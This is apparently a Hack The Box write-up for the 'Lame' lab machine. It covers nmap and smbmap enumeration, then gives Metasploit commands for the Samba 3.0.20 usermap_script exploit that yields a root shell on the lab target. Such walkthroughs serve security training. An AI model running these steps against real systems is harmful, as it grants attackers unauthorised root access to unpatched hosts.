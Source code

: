 ```yaml
---
layout: post
title: HTB - Lame Writeup
date: 2019-02-08
image: '/images/posts/htb/lame/lame.jpg'
categories: ["writeups"]
tags: ["writeups", "lame", "htb"]
---
```


* Box: Lame
  - Difficulty: Easy
  - Points: 20
  - Release: 14 Mar 2017
  - IP: 10.10.10.3


###Initial Enumeration

####1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA lame.nmap 10.10.10.3`

The nmap scan shows a vsftpd FTP server that is allowing anonymous connections. We also see port 22 and 445 open indicating there may be some network shares available for us.

<img src="/images/posts/htb/lame/lame1.jpg">

####2. FTP Enumeration

We can see the vsftpd version is 2.3.4 which is extremely outdated. We can also see that there is a metasploit module for this version. However, that isn't exploitable in this instance.


####3. SMB Enumeration

We can run **smbmap** to see if we have access to any network shares. The scan shows we have read/write access to the **tmp** share. After connecting to it with **smbclient** we don't find anything of interest.

`smbmap -H 10.10.10.3`

<img src="/images/posts/htb/lame/lame2.jpg">

Our earlier nmap scan indicates the smbd version is 3.0.20, which is also outdated and has exploits available. Conveniently, metasploit also has a module for this.

###Exploitation

####4. Smbd 3.0.20 Exploit

Load up metasploit and simply load up the exploit for this version of smbd. Once the target is set and exploit is run, we have a root shell. Super simple.

`msf > use exploit/multi/samba/usermap_script
msf > set RHOSTS 10.10.10.3
msf > run`

<img src="/images/posts/htb/lame/lame3.jpg">

<img src="/images/posts/htb/lame/lame4.jpg">
